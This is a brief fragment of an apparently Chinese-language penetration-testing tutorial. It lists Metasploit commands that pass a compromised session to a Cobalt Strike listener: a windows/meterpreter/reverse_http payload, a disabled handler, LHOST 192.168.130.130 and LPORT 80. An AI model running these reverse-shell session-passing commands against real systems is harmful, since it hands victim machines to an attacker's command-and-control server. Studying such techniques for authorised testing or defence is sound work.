 set PAYLOAD windows/meterpreter/reverse_http   # cs监听器中相同

 set DisablePayloadHandler true 				  # 告诉msf已建立监听，不必新建监听

set LHOST 192.168.130.130					  # cs的IP

 set LPORT 80 								  # cs监听器中监听的端口

set SESSION 7 

run

![img](assets/1654436832738-e9122fa8-03a5-424a-86ed-6cfefa15eab9.png)
